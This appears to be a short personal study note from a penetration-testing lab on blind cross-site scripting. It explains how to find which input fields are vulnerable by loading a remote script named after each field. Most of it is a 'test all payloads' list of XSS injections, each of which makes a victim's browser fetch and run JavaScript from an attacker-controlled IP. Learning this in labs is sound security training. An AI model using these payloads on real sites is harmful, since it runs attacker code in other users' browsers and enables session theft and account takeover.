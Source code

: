 To know which input fields are vulnerable, we can try loading a remote `js` file from our machine and changing the request to be the name of the input field i.e. `<script src=http://OUR_IP/username></script>`


> [!NOTE] Note
> Blind XSS has a higher success rate with DOM XSS type of vulnerabilities because of the ability to read the source code and creating a payload based off of it.


## TEST ALL PAYLOADS
```js
<script src=http://10.10.14.2></script>
'><script src=http://10.10.14.2></script>
"><script src=http://10.10.14.2></script>

javascript:eval('var a=document.createElement(\'script\');a.src=\'http://10.10.14.2\';document.body.appendChild(a)')

<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//10.10.14.2");a.send();</script>

<script>$.getScript("http://10.10.14.2")</script>
```

> [!NOTE] Note
> For registration forms, email fields are less likely to be vulnerable due to the format requirements being validated by front and back ends. Same with passwords as they'll be hashed
